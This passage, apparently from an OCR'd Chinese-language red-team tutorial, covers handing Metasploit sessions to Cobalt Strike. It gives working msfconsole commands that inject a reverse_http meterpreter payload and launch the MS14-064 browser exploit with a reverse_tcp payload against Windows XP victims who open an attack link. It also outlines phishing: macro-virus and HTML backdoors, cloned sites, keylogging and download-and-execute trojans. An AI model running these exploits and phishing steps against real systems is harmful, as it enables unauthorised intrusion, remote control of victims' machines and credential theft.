 将`DisablePayLoadHandler`设置为true。这告诉metasploit框架，它不需要在metasploit框架内创建处理程序来服务有效负载连接。就是让cobalt strike来处理。

`set PrependMigrate true`

这个选项告诉metasploit框架修改其stager，以便在利用之后立即迁移到另一个进程。此选项对于客户端攻击非常重要。它允许您的会话在被利用的应用程序崩溃或关闭时存活。

当xp系统的受害人用浏览器访问http://192.168.0.134:80/1Gk97z32pr 这个带有攻击代码的链接时候，成功的话就会在cobalt strike 产生一个会话

`sessions -i + ID`

```
use exploit/windows/local/payload_inject
set session 3
set payload windows/meterpreter/reverse_http
set lhsot 192.168.0.104
set lport 8888
set DisablePayloadHandler true
exploit -j
```

将这个sessions分配个cobaltstrike.

`会话的协议，一定要对应，不然会一直报错的。`

# 六、钓鱼攻击

## 生成后门

1.html文件运行钓鱼病毒

2.宏病毒

## 钓鱼攻击

收集用户浏览器客户端的信息，web管理模块，可以查看现在能使用的web模块

## 克隆网站

进行攻击

进行键盘记录

下载执行木马

## meatsploit溢出攻击配合cobal

命令一敲万事大吉

```
use exploit/windows/browser/ms14_064_ole_code_execution
set srvhost 192.168.0.134
set SRVPORT 888
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.0.134
exploit
```
